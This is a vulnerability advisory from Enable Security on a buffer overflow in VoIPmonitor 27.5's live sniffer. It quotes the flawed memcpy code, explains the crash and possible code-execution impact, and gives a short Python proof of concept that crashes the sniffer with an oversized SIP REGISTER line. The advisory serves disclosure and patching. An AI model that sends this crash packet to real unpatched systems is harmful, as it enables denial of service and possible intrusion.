 # VoIPmonitor is vulnerable to a buffer overflow when using the live sniffer

- Fixed versions: 27.6
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-03-voipmonitor-livesniffer-buffer-overflow
- VoIPmonitor Security Advisory: none, changelog references fixes at https://www.voipmonitor.org/changelog-sniffer
- Tested vulnerable versions: 27.5
- References: CVE-2021-1000005
- Timeline:
    - Report date: 2021-02-10
	- Triaged: 2021-02-12
	- Fix provided for testing: 2021-02-15
	- VoIPmonitor release with fix: 2021-02-15
	- Enable Security advisory: 2021-03-15

## Description

A buffer overflow was identified in the VoIPmonitor live sniffer feature. The description variable in the function `save_packet_sql` is defined as a fixed length array of 1024 characters. The description is set to the value of a SIP request or response line. By setting a long request or response line VoIPmonitor will trigger a buffer overflow. The affected code is:

```c
char callidstr[1024] = "";
if(packetS->sipDataLen) {
    void *memptr = memmem(packetS->data_()+ packetS->sipDataOffset, 
        packetS->sipDataLen, "\r\n", 2);
    if(memptr) {
        memcpy(description, packetS->data_()+ packetS->sipDataOffset, 
            (char *)memptr - (char*)(packetS->data_()+ packetS->sipDataOffset));
        description[(char*)memptr - (char*)(packetS->data_()+ 
            packetS->sipDataOffset)] = '\0';
        printf("%s\n", description);
    }
    // ...
}
```

## Impact

When using the static binaries provided at the VoIPMonitor download site, this vulnerability may lead to remote code execution. This is due to lack of standard memory corruption protection as explained in a separate advisory, ES2021-04-voipmonitor-staticbuild-memory-corruption-protection.

When compiling the `voipmonitor` program from source, most modern build systems will automatically include run-time best practice checks. In such cases, it appears that the worst-case-scenario is that the program will end up crashing.

## How to reproduce the issue

1. Start the live sniffer from the VOIPMonitor GUI
2. Execute the following Python program so that VOIPMonitor is able to capture the packet
3. Observe that VOIPMonitor has crashed

```python
import socket
msg='REGISTER %s SIP/2.0\r\n' % ('a' * 1024)
msg+='Via: SIP/2.0/UDP 192.168.1.132:35393;rport;branch=z9hG4bK-kwtTkrdNAO2Wvw0v\r\n'
msg+='Max-Forwards: 70\r\n'
msg+='From: <sip:85861710@demo.sipvicious.pro>;tag=mnq1nKGNZHNUkNOG\r\n'
msg+='To: <sip:85861710@demo.sipvicious.pro>\r\n'
msg+='Call-ID: 93X9dNZO2qdcfpdu\r\n'
msg+='CSeq: 1 REGISTER\r\n'
msg+='Contact: <sip:85861710@192.168.1.132:35393;transport=udp>\r\n'
msg+='Expires: 60\r\n'
msg+='Content-Length: 0\r\n'
msg+='\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(msg.encode(), ('demo.sipvicious.pro', 5060))
```

## Solution and recommendations

To address this issue, we recommend upgrading to the latest fixed version of VoIPmonitor.

We recommended the following to the vendor:

> The length of the value that the description is being set to should be checked before it is copied into memory. The pattern `memcpy(dest, src, MIN(src_len, max_len));` could be used to safely perform this operation.

## Acknowledgements

Enable Security would like to thank Martin Vit and the developers at VoIPmonitor for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

